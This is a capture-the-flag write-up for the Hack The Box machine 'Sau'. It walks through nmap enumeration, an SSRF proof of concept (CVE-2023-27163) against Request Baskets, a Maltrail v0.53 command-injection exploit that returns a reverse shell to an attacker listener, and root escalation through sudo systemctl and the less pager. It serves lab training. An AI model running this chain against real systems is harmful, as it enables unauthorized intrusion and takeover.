



# Sau

[Sau](https://app.hackthebox.com/machines/Sau) is an Easy machine on Hack The Box. The machine focuses on exploiting multiple vulnerabilities in order to gain access to the machine. The privilege escalation is pretty much straight forward compared to gaining the initial access on the machine.

## Enumeration

The first thing that we should do is check for any open ports on the target. And for that we can start an `nmap` scan

```
$ sudo nmap -n -Pn -p- 10.129.229.26
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 21:32 PDT
Nmap scan report for 10.129.229.26
Host is up (0.27s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 1388.12 seconds
```

Now that we know the open ports, we can start a service version scan as well
```
$ sudo nmap -n -Pn -p22,80,8338,55555 -sV -sC 10.129.229.26 -oA sau_ports
[sudo] password for nirvana:
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-24 23:46 PDT
Nmap scan report for 10.129.229.26
Host is up (0.093s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Fri, 25 Aug 2023 06:47:23 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Fri, 25 Aug 2023 06:46:52 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Fri, 25 Aug 2023 06:46:53 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=8/24%Time=64E84E5D%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Fri,\x2025\x20Aug\x20
SF:2023\x2006:46:52\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Fri,\x2025\x20Aug\x20
SF:2023\x2006:46:53\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Fri,\x2025\x20Aug\x202023\x2006:47:23\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 105.42 seconds
```

As seen from the scan results, we have port 80 and 8338 but both of them are filtered. Though we can still try to access port 55555 where a website appears to be hosted.



We can explore the tool a bit and figure out that it is a typical request bin, where it creates a new baskets and gives you a token which you can use to access the basket later. We can further send requests to our basket and see the data that comes in as well but no particular attack can be generated out of it. 

There is no admin panel as well that we can try to gain access of. So, the next thing that we can look for is an publicly disclosed vulnerabilty in this application that we can exploit.

With a quick Google search for "Request Basket exploits", we can find this [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) which exploits a SSRF vulnerability in Request Basket.

## Initial Access

The exploit is pretty easy to run, all we need is the targets IP and port number along with the address where we want to redirect our request internally on the server through the SSRF vulnerability.

We know that on port 55555 Request Basket is running and from the `nmap` scan we know that port 80 and 8338 are also open. So, we can run the exploit twice and create 2 baskets, one for each port.

```
$ ./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "xsikpk" proxy basket...
> Basket created!
> Accessing http://10.129.229.26:55555/xsikpk now makes the server request to http://127.0.0.1:80.
> Authorization: FfWcOUyPi4nSfzSDz_9NrvirxpBzXqJQoiy0-2DqK5NM
```

Now we can go to newly created basket and hopefully that request would make a request to port 80 on the target.



It looks like some other application called as `Maltrail` is running on port 80. We also know that its version `v0.53` is running on the server.

We can do the same for port 8338 and find that the same application is running over there as well. Now that we know that a specific application is running on the target machine, we can start looking for any associated exploits that could help us gain a reverse shell.

Again with a quick google search we can find an [Exploit for Maltrail v0.53 Unauthentical OS Command Inject](https://github.com/spookier/Maltrail-v0.53-Exploit). If we try to run this attack directly on the basket that we created for `http://127.0.0.1:80` then it won't work because the attack targets the `username` parameter of the login page (mentioned in the README). So, we need to first find the login page and then create a basket with the previous CVE that redirects to the Maltrail's login page. Again with some googling, we can find that the login page is simply called `login`

```
$ ./script.sh http://10.129.127.134:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "sbqmby" proxy basket...
> Basket created!
> Accessing http://10.129.127.134:55555/sbqmby now makes the server request to http://127.0.0.1:80/login.
> Authorization: YXhlB4IM-Z2O0Z1_wrnNbY589lzZY4MhdNQGDegmao3D
```

The next step is to start a `nc` listener and run the Maltrail exploit against the newly created basket

```
$ python3 exploit.py 10.10.16.44 1234 http://10.129.127.134:55555/sbqmby
Running exploit on http://10.129.127.134:55555/sbqmby
```

And there we get the reverse shell and user flag

```
$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.44] from (UNKNOWN) [10.129.127.134] 38442
$ whoami
whoami
puma
$ pwd
pwd
/opt/maltrail
$ cd ~
cd ~
$ cat user.txt
cat user.txt
```

## Privilege Escalation

For this part, we can get started with looking at the files in the home directory of our current user but nothing interesting can be found there.

```
$ ls -la
ls -la
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19 12:25 .
drwxr-xr-x 3 root root 4096 Apr 15 09:17 ..
lrwxrwxrwx 1 root root    9 Apr 14 17:46 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15 09:42 .cache
drwx------ 3 puma puma 4096 Apr 15 09:51 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15 09:41 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Aug 25 07:37 user.txt
```

The next thing that we can take a look at are the commands that our user can run with `sudo` privileges

```
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

It looks like we can check the status of the `trail.service`. Usually, the output of these commands is processed through `less` and we can take reference from [GTFOBins for `less`](https://gtfobins.github.io/#less) and then break into `root`. 



And just like that we get the root access!

## Some Key Points to Take Away

1. Whenever you come across any application, note it down and look for any associated exploits.
2. Always read and try to understand what the exploits do.

## References

1. [Sau](https://app.hackthebox.com/machines/Sau)
2. [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)
3. [Exploit for Maltrail v0.53 Unauthentical OS Command Inject](https://github.com/spookier/Maltrail-v0.53-Exploit)
4. [GTFOBins for `less`](https://gtfobins.github.io/#less)
